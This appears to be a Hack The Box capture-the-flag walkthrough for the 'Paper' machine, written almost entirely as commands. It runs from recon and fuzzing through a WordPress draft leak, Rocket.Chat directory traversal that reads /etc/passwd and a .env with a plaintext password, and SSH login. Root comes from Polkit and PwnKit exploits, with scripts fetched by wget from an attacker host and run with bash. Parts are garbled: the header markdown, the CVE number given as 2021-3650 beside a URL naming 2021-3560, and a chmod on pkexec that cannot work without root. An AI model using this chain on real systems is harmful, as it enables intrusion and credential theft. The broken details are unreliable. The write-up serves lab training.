 ## 📌 Box Info
- **OS**: [Linux](Linux)
- **Difficulty**: [Easy](Easy)
- Platform: [HTB](HTB)](Easy)

### Recon
```bash
nmap -p- --min-rate 10000 10.10.11.143
nmap -p 22,80,443 -sCV 10.10.11.143
```

### Directory/Subdomain Discovery
```bash
feroxbuster -u http://office.paper
wfuzz -u http://office.paper -H "Host: FUZZ.office.paper" \
  -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt --hh 199691
```

### [WordPress Enumeration](HTTP)
```bash
wpscan --url http://office.paper --api-token $WPSCAN_API
```

### CVE-2019-17671 - View Draft Posts
```bash
# Visit in browser:
http://office.paper/?static=1
```

### Rocket.Chat - Directory Traversal via recyclops Bot
```
# In DM to @recyclops
list ../../../
file ../../../etc/passwd
file ../../../hubot/.env
```

### Credential Discovery & SSH Access
```bash
# Found creds in .env:
# dwight:Queenofblad3s!23

crackmapexec ssh 10.10.11.143 -u dwight -p 'Queenofblad3s!23'

sshpass -p 'Queenofblad3s!23' ssh dwight@10.10.11.143
```

### LinPEAS Enumeration
```bash
git clone https://github.com/carlospolop/PEASS-ng
cd PEASS-ng/linPEAS
python3 -m builder.linpeas_builder
python3 -m http.server 80

# On target:
wget http://10.10.14.6/linpeas.sh
bash linpeas.sh
```

### CVE-2021-3650 (Polkit User Creation)
```bash
# Host side:
wget https://raw.githubusercontent.com/secnigma/CVE-2021-3560-Polkit-Privilege-Esclation/main/cve-2021-3650.sh
python3 -m http.server 80

# On Paper:
wget http://10.10.14.6/cve-2021-3650.sh
bash cve-2021-3650.sh

# Login to new user
su - secnigma
# Password: secnigmaftw
sudo bash
```

### PwnKit - (CVE-2021-4034)
```bash
# On Paper:
ls -l /usr/bin/pkexec
# If not setuid:
chmod 4755 /usr/bin/pkexec

# Compile exploit:
cc -Wall exploit.c -o exploit

# Run exploit:
./exploit
```

### Flags
```bash
cat /home/dwight/user.txt
cat /root/root.txt
```